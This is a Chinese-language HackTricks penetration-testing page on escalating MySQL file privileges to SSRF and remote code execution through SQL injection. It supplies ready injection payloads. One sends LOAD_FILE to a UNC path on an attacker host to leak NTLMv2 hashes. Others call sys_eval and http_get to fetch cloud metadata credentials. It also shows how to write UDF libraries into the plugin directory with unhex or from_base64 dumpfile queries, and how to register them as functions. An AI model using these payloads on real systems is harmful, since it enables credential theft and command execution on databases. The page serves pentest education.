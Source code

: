 # MySQL文件权限到SSRF/RCE

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks云 ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 推特 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 YouTube 🎥</strong></a></summary>

* 你在一家**网络安全公司**工作吗？你想在HackTricks中看到你的**公司广告**吗？或者你想获得**PEASS的最新版本或下载PDF格式的HackTricks**吗？请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 发现我们的独家[NFT收藏品**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* **加入**[**💬**](https://emojipedia.org/speech-balloon/) [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我在**Twitter**上的[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**。**
* **通过向[hacktricks仓库](https://github.com/carlospolop/hacktricks)和[hacktricks-cloud仓库](https://github.com/carlospolop/hacktricks-cloud)提交PR来分享你的黑客技巧**。

</details>

**帖子来源于**[**https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/#mysqlmariadbpercona**](https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/#mysqlmariadbpercona)

### 使用LOAD\_FILE/LOAD DATA/LOAD XML进行SSRF

每篇关于SQL Out of Band数据泄露的文章都会使用`LOAD_FILE()`字符串函数进行网络请求。该函数本身根据运行的操作系统和数据库启动时的设置有其自身的限制。

例如，如果未设置`secure_file_priv`全局变量，则[默认值设置为`/var/lib/mysql-files/`](https://dev.mysql.com/doc/mysql-installation-excerpt/5.7/en/linux-installation-rpm.html)，这意味着您只能使用类似`LOAD_FILE('filename')`或`LOAD DATA [LOCAL] INFILE 'filename' INTO TABLE tablename`的函数从`/var/lib/mysql-files/`目录中读取文件。要能够在此目录之外的文件上执行读取操作，必须将`secure_file_priv`选项设置为`""`，这只能通过更新数据库配置文件或将`--secure_file_priv=""`作为启动参数传递给数据库服务来完成。

![](https://ibreak.software/img/using-sql-injection-to-perform-ssrf-xspa-attacks/2.png)

然而，在`secure_file_priv`设置为`""`的情况下，我们应该能够读取系统上的其他文件，假设当前数据库用户的`file_priv`设置为`Y`并且具有文件读取权限。然而，能够使用这些函数进行网络调用非常依赖于操作系统。由于这些函数仅用于读取文件，因此可以进行的唯一与网络相关的调用是对Windows主机上的UNC路径进行调用，因为[Windows的`CreateFileA` API在访问文件时理解UNC命名约定](https://docs.microsoft.com/en-gb/windows/win32/fileio/naming-a-file)。

因此，如果目标数据库运行在Windows机器上，注入查询`x'; SELECT LOAD_FILE('\\\\attackerserver.example.com\\a.txt'); -- //`将导致Windows机器发送NTLMv2哈希值，试图与攻击者控制的`\\attackerserver.example.com`进行身份验证。

这种服务器端请求伪造（SSRF）虽然有用，但仅限于TCP端口445。您无法控制端口号，但可以从具有完全读取权限的共享中读取信息。此外，正如早期研究所示，您可以使用此有限的SSRF功能窃取哈希并将其中继以获得shell，因此它绝对有用。

![](https://ibreak.software/img/using-sql-injection-to-perform-ssrf-xspa-attacks/3.png)

### 使用用户定义函数进行远程命令执行（RCE）

MySQL数据库的另一个很酷的技术是使用外部库文件中的用户定义函数（UDF），如果这些库文件存在于特定位置或系统$PATH中，则可以从MySQL中访问这些函数。

您可以使用SQL注入来**编写一个包含可以进行网络/HTTP请求的用户定义函数的库（`.so`或`.dll`**，具体取决于Linux还是Windows），然后通过其他查询调用该函数。

然而，这也有一些限制。根据MySQL的版本（可以通过`select @@version`来识别），可以加载插件的目录受到限制。MySQL v5.0.67以下版本允许从系统路径加载库文件，如果未设置`plugin_dir`变量。现在情况已经改变，较新版本的**`plugin_dir`**变量设置为类似于`/usr/lib/mysql/plugin/`的内容，通常由root拥有。

基本上，要将自定义库加载到MySQL并通过SQL注入调用加载的库中的函数，您需要：

* 通过SQL注入能够**写入**`@@plugin_dir`指定的位置
* 当前数据库用户在`mysql.user`中的**`file_priv`**设置为**`Y`**
* 将**`secure_file_priv`**设置为**`""`**，以便您可以从网络或Web应用程序中的文件上传目录等任意位置读取库的原始字节。

假设满足了上述条件，您可以使用**传统方法将**[**流行的MySQL UDF `lib_mysqludf_sys`库**](https://github.com/mysqludf/lib\_mysqludf\_sys) **传输到数据库服务器**。然后，您将能够使用以下语法执行操作系统命令请求，例如`cURL`或`powershell wget`，以执行SSRF：

`x'; SELECT sys_eval('curl http://169.254.169.254/latest/meta-data/iam/security-credentials/'); -- //`

此库中声明了许多其他函数，可以在[此处](https://osandamalith.com/2018/02/11/mysql-udf-exploitation/)进行分析。如果您像我一样懒，可以从`/usr/share/metasploit-framework/data/exploits/mysql/`目录中的metasploit安装中获取此UDF库的副本，并开始使用。
另外，已经创建了UDF库，专门为数据库提供进行HTTP请求的能力。您可以使用[MySQL用户定义函数（UDF）进行HTTP GET/POST](https://github.com/y-ken/mysql-udf-http)来使数据库进行HTTP请求，使用以下语法：

`x'; SELECT http_get('http://169.254.169.254/latest/meta-data/iam/security-credentials/'); -- //`

您还可以[创建自己的UDF，并在渗透测试后使用它。](https://pure.security/simple-mysql-backdoor-using-user-defined-functions/)

无论如何，您需要将库传输到数据库服务器。您可以通过多种方式完成此操作：

1. 使用MySQL的`hex()`字符串函数或类似的`xxd -p filename.so | tr -d '\n'`将库的内容转换为十六进制格式，然后使用`x'; SELECT unhex(0x1234abcd12abcdef1223.....) into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so' -- //`将其转储到`@@plugin_dir`目录中。
2. 或者，将`filename.so`的内容转换为Base64，并使用`x';select from_base64("AAAABB....") into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so' -- //`。

如果`@@plugin_dir`不可写，则如果版本高于`v5.0.67`，您将无法成功。否则，将其写入路径中的其他位置，并使用以下方式从该位置加载UDF库：

* 对于`lib_mysqludf_sys`库 - `x';create function sys_eval returns string soname 'lib_mysqludf_sys.so'; -- //`
* 对于`mysql-udf-http`库 - `x';create function http_get returns string soname 'mysql-udf-http.so'; -- //`

![](https://ibreak.software/img/using-sql-injection-to-perform-ssrf-xspa-attacks/4.png)

![](https://ibreak.software/img/using-sql-injection-to-perform-ssrf-xspa-attacks/5.png)

要自动化此过程，您可以使用支持[通过`--udf-inject`选项使用自定义UDF的SQLMap](https://github.com/sqlmapproject/sqlmap/wiki/Usage)。

对于盲注SQL注入，您可以将UDF函数的输出重定向到临时表中，然后从那里读取数据，或者使用[嵌入在`sys_eval`或`sys_exec` curl命令中的DNS请求](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)。

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* 您在**网络安全公司**工作吗？您想在HackTricks中看到您的**公司广告**吗？或者您想获得最新版本的PEASS或下载PDF格式的HackTricks吗？请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 发现我们的独家[NFT收藏品**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* 获取[**官方PEASS和HackTricks衣物**](https://peass.creator-spring.com)
* **加入**[**💬**](https://emojipedia.org/speech-balloon/) [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)，或在**Twitter**上**关注**我[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**。**
* **通过向[hacktricks repo](https://github.com/carlospolop/hacktricks)和[hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)提交PR来分享您的黑客技巧**。

</details>
